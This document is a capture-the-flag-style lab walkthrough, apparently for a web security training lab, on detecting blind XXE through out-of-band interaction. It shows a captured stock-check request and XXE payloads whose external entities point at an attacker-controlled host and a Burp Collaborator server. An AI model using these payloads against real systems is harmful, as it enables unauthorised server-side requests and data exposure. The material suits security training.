





# Blind XXE with out-of-band interaction

## Lab Description :


## Overview :
You can often detect blind XXE using the same technique as for XXE SSRF attacks but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:

``<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>``

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

## Solution :
Clicking on checkstock feature send the following request,
```html
POST /product/stock HTTP/1.1
Host: 0a5500920363ef3783ca2e3900dd000f.web-security-academy.net
Cookie: session=N7UKKawFN8qZnb8SyEtJbdm5XyhRWxmQ
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a5500920363ef3783ca2e3900dd000f.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a5500920363ef3783ca2e3900dd000f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

To solve the lab we need to make an out bound request to our collaborator server to solve the lab.

For this we can use the following payload
```
<!DOCTYPE root [<!ENTITY  % ext SYSTEM "http://burp-collaborator.net/">]>
<stockCheck>
  <productId>%ext;</productId>
  <storeId>1</storeId>
</stockCheck>
```
But in the response we get an error stating that - Entities are not allowed for security reasons



So instead of using parameterized entities, we use normal entities.



The response states - Invalid product ID which is an indicator that there is no productID but still the application may have parsed the entity and made out-bound request to our burp collaborator server.

Now in our collaborator server, we can see that we have some DNS & HTTP requests made .



We have thus solved the lab.



#### Visit The Next Page For The Next Level :)

